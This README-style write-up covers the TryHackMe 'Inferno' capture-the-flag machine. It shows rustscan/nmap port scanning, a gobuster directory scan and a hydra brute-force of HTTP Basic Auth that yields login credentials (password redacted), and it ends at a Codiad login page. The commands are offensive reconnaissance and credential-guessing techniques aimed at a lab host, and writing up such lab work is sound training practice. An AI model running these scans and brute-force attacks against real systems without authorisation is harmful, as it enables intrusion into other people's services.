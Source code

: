 <p align="center">
    •<a href="#enumeration">Enumeration</a>•
    <a href="#access">Access</a>•
    <a href="#privilege escalation">Privilege Escalation</a>•
</p><br>

# Inferno-Writeup-Tryhackme
Writeup of the <a href="https://tryhackme.com/room/inferno" target="_blank">Inferno</a>(made by @mindsflee) machine on <a href="https://tryhackme.com" targer="_blank">TryHackMe</a>


# Enumeration
Running a rustscan on the targer gives the following result:
<br><strong>rustscan -a 10.10.121.130 -- -A -sC -sV -oN scan.txt</strong>

```
# Nmap 7.91 scan initiated Sun Feb 14 17:55:24 2021 as: nmap -vvv -p 21,22,23,25,80,88,106,110,636,750,775,777,779,783,808,873,1001,1178,1210,1236,194,1300,1314,1313,1529,2000,2003,2121,2150,2601,2602,2600,2604,2603,2605,2606,2607,2608,2988,2989,4224,4557,4559,4600,5051,5052,5151,5354,5355,5432,5555,5667,5666,5674,5675,5680,4949,6346,6514,6566,6667,8021,8081,8088,8990,9098,9359,9418,9673,10081,10082,10083,11201,15345,17001,17002,17003,17004,20011,20012,24554,27374,30865,57000,60177,60179 -A -sC -sV -oN scan.txt 10.10.121.130
Nmap scan report for 10.10.121.130
Host is up, received syn-ack (0.19s latency).
Scanned at 2021-02-14 17:55:25 IST for 1691s

PORT      STATE SERVICE          REASON  VERSION
22/tcp    open  ssh              syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
80/tcp    open  http             syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
```
There are many ports open but ssh(22) and http(80) are the only services running.

Tried to bruteforce ssh but no luck :(

Now the http site:<br>
<p align="center"><img src="webimg.png" height="700" width="800" alt="frontpage"></p>
Just lines from Dante's Inferno(canto XXXIV) and the 9 circles of Hell.<br>
Ok, moving on...<br>
Running a gobuster scan on the site gives the following result:<br>
<strong>gobuster dir -u http://10.10.121.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,sh,bin,cgi -t 50</strong><br>

===============================================================<br>
Gobuster v3.0.1<br>
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)<br>
===============================================================<br>
[+] Url:            http://10.10.121.130/<br>
[+] Threads:        50,<br>
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt<br>
[+] Status codes:   200,204,301,302,307,401,403<br>
[+] User Agent:     gobuster/3.0.1<br>
[+] Extensions:     php,html,sh,bin,cgi<br>
[+] Timeout:        10s<br>
===============================================================<br>
2021/02/14 18:11:42 Starting gobuster<br>
===============================================================<br>
/index.html (Status: 200)<br>
/inferno (Status: 401)<br>
/server-status (Status: 403)<br>

There is an interesting directory named <strong>inferno</strong>.
But navigating to it prompts an auth box (Basic Auth).<br>
Since we don't have any credentials bruteforce FTW!<br>
# Access
I shortlisted some possible Usernames:
```
root
admin
dante 
inferno
quanto
durante
```
Bruteforcing with hydra gives the following credentials:<br>
<strong>hydra -L usernames.txt -P ~/rockyou.txt 10.10.121.130 http-get /inferno/ -t 64</strong>
```
[80][http-get] host: 10.10.121.130   login: admin   password: REDACTED
```
Using the credentials leads to another login page:<br>
<p align="center"><img src="loginpage.png" alt="codiad">
<br></p>
Using the same credentials we can login.<b>Success!</b>
<p align="center"><img src="codiad.png" height="600" width="800" alt="codiad_content"></p>
